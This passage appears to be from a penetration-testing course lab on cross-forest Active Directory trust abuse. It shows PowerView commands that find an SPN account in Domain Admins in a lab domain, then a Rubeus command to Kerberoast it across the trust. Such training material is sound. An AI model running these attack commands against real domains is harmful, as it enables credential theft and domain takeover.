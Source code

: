 ## **Breaking Down Boundaries**

## **Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows**

#### **Enumerating Accounts for Associated SPNs Using Get-DomainUser Using Power view**

```powershell
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.

```powershell
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

Let's perform a Kerberoasting attack across the trust using `Rubeus`. We run the tool as we did in the Kerberoasting section, but we include the `/domain:` flag and specify the target domain.

* `PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap`

